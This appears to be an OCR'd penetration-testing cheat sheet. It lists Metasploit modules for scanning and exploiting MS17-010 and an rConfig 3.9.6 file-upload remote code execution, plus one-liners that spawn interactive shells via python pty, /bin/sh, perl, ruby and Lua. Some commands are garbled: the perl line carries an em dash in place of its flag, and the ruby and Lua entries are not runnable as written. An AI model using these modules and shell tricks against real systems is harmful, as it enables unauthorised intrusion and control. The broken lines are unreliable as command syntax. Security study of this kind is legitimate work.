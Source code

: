 ## Metasploit exploit module used to check if a host is vulnerable to `ms17_010`
```
use auxiliary/scanner/smb/smb_ms17_010
```

## Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010
```
use exploit/windows/smb/ms17_010_psexec
```

## Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`
```
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

## Python command used to spawn an `interactive shell` on a linux-based system
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Spawns an interactive shell on a linux-based system
```
/bin/sh -i
```

## Uses `perl` to spawn an interactive shell on a linux-based system
```
perl —e 'exec "/bin/sh";'
```

## Uses `ruby` to spawn an interactive shell on a linux-based system
```
ruby: exec "/bin/sh"
```

## Uses `Lua` to spawn an interactive shell on a linux-based system
```
Lua: os.execute('/bin/sh')
```

